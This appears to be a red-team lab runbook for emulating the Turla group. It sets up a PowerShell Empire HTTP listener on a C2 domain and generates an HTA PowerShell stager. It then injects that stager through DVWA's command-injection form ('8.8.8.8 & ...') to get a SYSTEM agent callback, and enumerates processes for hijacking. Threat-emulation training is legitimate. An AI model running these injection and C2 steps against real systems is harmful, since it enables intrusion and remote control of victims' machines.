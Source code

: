 Create the listener

Enter the following commands to create a new listener
1. > uselistener http 
2. > set Name TurlaHTTP 
3. > set Port 80 
4. > set BindIP 204.18.115.213 
5. > set Host http://crimeariver.ru 
6. (Optional)> set WorkingHours 07:00 16:00  (synch working hours with Lariat running hours)
7. > execute  

Turla Threat Emulation 
Initial Access: Inject PS script/loader to load PS Empire stage 1 malware  
1.  Generate C2 Initial Access Payload � in Empire execute the following commands
a. > main   
b. > usestager windows/hta   
c. > set Listener TurlaHTTP 
d. > execute  

e. Copy PS portion of stager payload. ex. 'powershell -noP �w 1 �enc SQNAkdm2m... '

3. Access DVWA (Damn Vulnerable Web Application) hosted on tku.ua
a. Ensure the Windws user �VDrago� is logged into tku-12xampp-001
b. On Kali-Shredder, open DVWA in Browser (see table for URL) 
c. Login admin/password 

4. Change DVWA Security Level

a. Open the "DVWA Security" page and change the Security settings to 'Medium' and "Submit' the changes. 

5. Exploit DVWA - PHP shell_exec() exploit:  
1. Navigate to the 'Command Injection' page on DVWA.
2. Validate the vulnerability in DVWA. In the "Enter and IP address" form, enter "8.8.8.8 & whoami ".
3. 'Submit' the page. After the ping results output, the user that DVWA is running as should be displayed.


4. Now use the PowerShell Stager as the payload. After "8.8.8.8 & ", paste the Windows HTA Powershell Loader code that you copied from PSEmpire. 
5. Submit the page. The webpage will hang because the PowerShell Loader does not return (ie. The process executed from PHP shell_exec() does not return). 

6. Minimize (DO NOT CLOSE) the browser, switch to the PSE prompt, and wait for agent callback.
7. In Empire, you will see the Stager check-in

Discovery: process enumeration 
In PSEmpire, run the following commands to discover a process to hijack
1. > agents  
2. > autorun clear
3. > autorun resource/enum.rc powershell 
This will be run when the next agent checks in
4. > autorun show
5. > interact <XAMPP tku\SYSTEM ID goes here> 
This would be the only Empire agent available currently
6. > sysinfo
Exhibit that the agent is running as tku\SYSTEM, a 'service' account that has no user profile/login.
7. > ps explorer 
Run a Process Listing on the agents host to find the explorer.exe (Windows GUI Environment)
